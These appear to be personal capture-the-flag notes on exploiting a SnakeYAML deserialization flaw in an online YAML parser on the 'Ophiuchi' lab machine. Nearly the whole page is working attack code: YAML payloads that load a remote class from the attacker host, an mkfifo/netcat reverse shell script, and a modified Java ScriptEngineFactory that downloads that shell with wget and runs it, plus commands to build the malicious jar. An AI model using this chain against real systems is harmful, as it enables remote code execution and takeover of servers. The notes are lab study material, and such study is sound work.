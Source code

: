 #### Online YAML parser
See [[Ophiuchi.pdf]]
See https://github.com/artsploit/yaml-payload
```bash - kali
git clone https://github.com/artsploit/yaml-payload
```
[[Python#Server]]
```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/"]
  ]]
]
```
Should see a call back in you python server.
shell file:
```bash - kali
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f
```
Modify lines 8 - 17 of `/src/artsploit/AwesomeScriptEngineFactory.java` with the following to upload and execute reverse shell.
```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
    public AwesomeScriptEngineFactory() throws Exception {
        try {
            Process p = Runtime.getRuntime().exec("wget $KALI/shell -O /tmp/shell");
			p.waitFor();
			p = Runtime.getRuntime().exec("chmod +x /tmp/shell");
			p.waitFor();
			p = Runtime.getRuntime().exec("/tmp/shell");
			p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
```bash - kali
javac src/artsploit/AwesomeScriptEngineFactory.java
```
```bash - kali
jar -cvf yaml-payload.jar -C src/ .
```
[[1._rlwrap]]
```bash - kali
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/yaml-payload.jar"]
  ]]
]
```
